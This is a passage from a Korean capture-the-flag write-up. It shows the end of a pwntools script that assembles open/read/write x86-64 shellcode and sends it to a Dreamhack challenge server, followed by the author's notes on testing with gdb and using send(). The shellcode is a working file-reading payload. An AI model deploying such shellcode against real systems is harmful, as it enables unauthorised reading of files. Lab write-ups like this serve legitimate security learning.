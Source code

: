```python
mov r8, 0x68732f656d6f682f
push r8

mov rdi, rsp
xor rsi, rsi
mov rax, 0x02
syscall

mov rdi, rax
lea rsi, [rsp-0x40]
mov rdx, 0x40
mov rax, 0x00
syscall

mov rdi, 0x01
lea rsi, [rsp-0x40]
mov rdx, 0x30
mov rax, 0x01
syscall

xor rdi, rdi
mov rax, 0x3c
syscall
'''

payload=asm(payload)

p=remote("host3.dreamhack.games", 8603)
p.sendline(payload)
p.interactive()
```

내가 작성한 어셈블리 코드를 굳이 힘들게 쉘코드로 변환할 필요가 없어서 효율적이라 느낀 코드였다.

---

# 4. 앞으로 고칠 점

1. 익스플로잇을 만들고 나서, 로컬 환경 대상으로 gdb를 돌려볼 것.
    - 비슷한 과정을 반복할 필요가 없으므로 문제 풀이 시간이나 피드백 시간이 훨씬 단축될 것이다.
2. 원격 환경에 셸코드 등의 바이너리를 보낼 땐 반드시 pwntools의 send()를 사용할 것.
    - 제발 제발 제발 직접 입력하지 말고 프로그램을 이용하자.